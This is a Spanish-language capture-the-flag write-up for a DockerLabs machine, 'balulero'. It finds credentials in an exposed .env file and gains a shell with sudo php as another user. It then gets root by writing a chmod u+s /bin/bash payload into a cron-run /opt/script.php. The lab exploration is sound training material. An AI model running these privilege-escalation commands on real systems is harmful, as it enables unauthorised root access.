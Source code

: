 nmap: 22, 80

![image](https://github.com/user-attachments/assets/17d47401-b6fc-4bf1-bd5f-62a66bf34e98)

---
al ingresar a la pagina no da una posible usuario "balu"
al entrar al código de la pagina podemos ver que hay un "script.js" al final, si entramos nos mandara a otro código con lo que muestra esto:

![image](https://github.com/user-attachments/assets/3c3528f8-fc03-42b2-bedf-b5f8cfd48ec3)

y si colocamos el 
> .env_de_baluchingo

en el URL queda si:

>http://172.17.0.2/.env_de_baluchingon

nos dará las credenciales

![image](https://github.com/user-attachments/assets/a32544d7-07fa-49ea-b4b5-1a768c25d73d)


![[dockerlabs/facil/balulero/conexion.png]]

estamos dentro y ahora buscamos como escalar

para escalar se puede por "php" pero no tenemos permisos de escritura o modificación.
para escalar al otro usuario chocolate 
seguí los pasos de: https://gtfobins.github.io/gtfobins/php/#sudo

![[dockerlabs/facil/balulero/sudo.png]]

![[chocolate.png]]

    CMD="/bin/sh"

     sudo -u chocolate php -r "system('$CMD');"


ahora a escalar a root

utilizamos una herramienta llamada pspy para ver que ejecuta root sin ser root nosotros y poder ver: https://github.com/DominicBreuker/pspy
lo ejecutamos y muestra que esta carpeta se ejecuta cada 5 segundos:  /opt/script.php

![[sleep5.png]]

ejecutamos los siguientes comandos:

    echo "<?php" > /opt/script.php

    echo "exec ('chmod u+s /bin/bash');" >> /opt/script.php

    echo "?>" >> /opt/script.php

por orden uno por uno, lanzamos bash -p

![[dockerlabs/facil/balulero/root.png]]

y somos root! 

